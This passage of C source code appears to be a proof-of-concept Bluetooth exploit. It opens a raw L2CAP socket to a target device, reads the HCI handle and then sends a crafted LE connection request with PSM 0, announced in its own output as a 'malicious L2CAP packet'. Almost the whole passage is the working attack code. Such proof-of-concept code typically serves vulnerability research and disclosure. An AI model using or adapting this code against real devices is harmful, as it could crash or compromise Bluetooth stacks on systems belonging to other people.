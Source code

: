 ```c

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr_type = BDADDR_LE_PUBLIC;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;
  printf("[*] socket\n");
  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  printf("[*] bind\n");
  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  printf("[*] connect\n");
  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  printf("[*] getsockopt\n");
  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_le_conn_req req;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(L2CAP_CID_LE_SIGNALING);
  packet.cmd_hdr.code = L2CAP_LE_CONN_REQ;
  packet.cmd_hdr.ident = 0x1;
  packet.cmd_hdr.len = sizeof(packet.req);
  packet.req.psm = htobs(0);
  packet.req.scid = htobs(0x42);
  packet.req.mtu = htobs(23);
  packet.req.mps = htobs(23);
  packet.req.credits = htobs(0xff);

  printf("[*] Sending malicious L2CAP packet...\n");
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
